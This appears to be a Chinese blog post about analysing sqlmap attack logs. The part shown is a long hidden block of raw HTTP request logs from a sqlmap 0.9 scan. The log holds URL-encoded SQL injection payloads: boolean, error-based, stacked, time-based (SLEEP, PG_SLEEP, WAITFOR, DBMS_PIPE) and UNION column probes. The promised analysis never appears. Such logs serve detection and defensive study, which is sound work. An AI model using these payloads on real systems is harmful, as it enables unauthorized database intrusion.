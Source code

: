 ```yaml
---
layout: post
title: "sqlmap 攻击日志分析及自动化解决想法"
description: ""
category: 
tags: [sqlmap, hack]
---
```


以下内容高危，如你知道密码，请输入

<div style="display:none">
以下是我用sqlmap扫的日志，这是最简单的扫描记录
<pre><code>GET /?a=1 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=2904 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%22%28%27%27%28%22%28%27%29%28 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208676%3D9977%20AND%20%289633%3D9633 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203925%3D3925%20AND%20%289861%3D9861 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20636%3D7258%20AND%20%285513%3D5513 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%204986%3D6711 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%203925%3D3925 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%203864%3D9683 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20940%3D4505%20AND%20%28%27konc%27%3D%27konc HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203925%3D3925%20AND%20%28%27FFCP%27%3D%27FFCP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207381%3D1001%20AND%20%28%27OLcv%27%3D%27OLcv HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%202327%3D9115%20AND%20%27Qlha%27%3D%27Qlha HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203925%3D3925%20AND%20%27Wlgw%27%3D%27Wlgw HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%201192%3D5861%20AND%20%27mmuZ%27%3D%27mmuZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%287269%3D7269 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%28%27kalg%27%3D%27kalg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20%28SELECT%208251%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C116%2C107%2C108%2C58%29%2C%28SELECT%20%28CASE%20WHEN%20%288251%3D8251%29%20THEN%201%20ELSE%200%20END%29%29%2CCHAR%2858%2C102%2C112%2C117%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29%20AND%20%27bMbA%27%3D%27bMbA HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%281279%3D1279 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%28%27RfWr%27%3D%27RfWr HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%203131%3DCAST%28CHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%283131%3D3131%29%20THEN%201%20ELSE%200%20END%29%29%3A%3Atext%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%20AS%20NUMERIC%29%20AND%20%27uRAt%27%3D%27uRAt HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%283395%3D3395 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%28%27FJAP%27%3D%27FJAP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%205622%3DCONVERT%28INT%2C%28CHAR%2858%29%2BCHAR%28116%29%2BCHAR%28107%29%2BCHAR%28108%29%2BCHAR%2858%29%2B%28SELECT%20%28CASE%20WHEN%20%285622%3D5622%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%2858%29%2BCHAR%28102%29%2BCHAR%28112%29%2BCHAR%28117%29%2BCHAR%2858%29%29%29%20AND%20%27wdHo%27%3D%27wdHo HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%281009%3D1009 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%28%27ytpV%27%3D%27ytpV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%208421%3D%28SELECT%20UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28116%29%7C%7CCHR%28107%29%7C%7CCHR%28108%29%7C%7CCHR%2858%29%7C%7C%28SELECT%20%28CASE%20WHEN%20%288421%3D8421%29%20THEN%201%20ELSE%200%20END%29%20FROM%20DUAL%29%7C%7CCHR%2858%29%7C%7CCHR%28102%29%7C%7CCHR%28112%29%7C%7CCHR%28117%29%7C%7CCHR%2858%29%7C%7CCHR%2862%29%29%29%20FROM%20DUAL%29%20AND%20%27KQDt%27%3D%27KQDt HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%287560%3D7560 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%28%27AfMz%27%3D%27AfMz HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20SLEEP%285%29%3B--%20%20AND%20%27pIKO%27%3D%27pIKO HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%283641%3D3641 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%3B%20SELECT%20PG_SLEEP%285%29%3B-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%28%27mTPd%27%3D%27mTPd HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20SELECT%20PG_SLEEP%285%29%3B--%20AND%20%27lhez%27%3D%27lhez HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%285747%3D5747 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%28%27iUug%27%3D%27iUug HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%3B%20WAITFOR%20DELAY%20%270%3A0%3A5%27%3B--%20AND%20%27oGtV%27%3D%27oGtV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20SLEEP%285%29%20AND%20%283924%3D3924 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%20SLEEP%285%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20SLEEP%285%29%20AND%20%28%27vnCj%27%3D%27vnCj HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20SLEEP%285%29%20AND%20%27xHdS%27%3D%27xHdS HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%287626%3D7626 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%28%27vrAE%27%3D%27vrAE HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%20851%3D%28SELECT%20851%20FROM%20PG_SLEEP%285%29%29%20AND%20%27VcUg%27%3D%27VcUg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%283376%3D3376 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20WAITFOR%20DELAY%20%270%3A0%3A5%27-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%28%27cMqq%27%3D%27cMqq HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20WAITFOR%20DELAY%20%270%3A0%3A5%27--%20AND%20%27QQdM%27%3D%27QQdM HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%284545%3D4545 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%28%27JNkT%27%3D%27JNkT HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20AND%207586%3DDBMS_PIPE.RECEIVE_MESSAGE%28CHR%2884%29%7C%7CCHR%2897%29%7C%7CCHR%28104%29%7C%7CCHR%28110%29%2C5%29%20AND%20%27YxKy%27%3D%27YxKy HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28771%3D771 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%282265%3D2265 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286668%3D6668 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%283039%3D3039 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287237%3D7237 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%281361%3D1361 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%287315%3D7315 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%286174%3D6174 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%285136%3D5136 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%282494%3D2494 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%28%27nymA%27%3D%27nymA HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%28%27ijmk%27%3D%27ijmk HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27oFxP%27%3D%27oFxP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27CWYo%27%3D%27CWYo HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27lxqZ%27%3D%27lxqZ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27DWNP%27%3D%27DWNP HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27byrs%27%3D%27byrs HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27KEvQ%27%3D%27KEvQ HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27OLyg%27%3D%27OLyg HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%28%27TOsV%27%3D%27TOsV HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%23%20AND%20%27mDCu%27%3D%27mDCu HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%23%20AND%20%27VTxz%27%3D%27VTxz HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27YmTa%27%3D%27YmTa HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27MMix%27%3D%27MMix HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27bXGh%27%3D%27bXGh HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27DuTO%27%3D%27DuTO HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27JVBX%27%3D%27JVBX HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27xxHC%27%3D%27xxHC HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27zReF%27%3D%27zReF HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%27%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%23%20AND%20%27iOvN%27%3D%27iOvN HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL--%20AND%20%282876%3D2876 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL--%20AND%20%284969%3D4969 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281601%3D1601 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%285858%3D5858 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%2867%3D67 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%286756%3D6756 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%283876%3D3876 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%281001%3D1001 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%287414%3D7414 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%29%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL--%20AND%20%28767%3D767 HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
GET /?a=1%20UNION%20ALL%20SELECT%20NULL%2C%20NULL-- HTTP/1.1   sqlmap/0.9 (http://sqlmap.sourceforge.net)
